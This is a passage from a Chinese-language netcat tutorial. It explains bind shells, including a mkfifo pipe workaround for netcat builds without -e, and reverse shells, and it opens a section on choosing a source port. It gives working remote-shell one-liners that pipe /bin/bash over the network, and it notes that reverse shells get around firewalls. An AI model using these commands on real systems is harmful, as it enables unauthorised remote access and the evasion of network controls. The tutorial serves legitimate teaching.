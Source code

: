 	$nc -l 1567 -e /bin/bash -i

Client

	$nc 172.31.100.7 1567

这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server

	$mkfifo /tmp/tmp_fifo
	$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2\>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client

	$nc -n 172.31.100.7 1567

你会得到一个shell提示符在客户端

### 反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

	$nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端

	$nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

### **10. 指定源端口**

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端
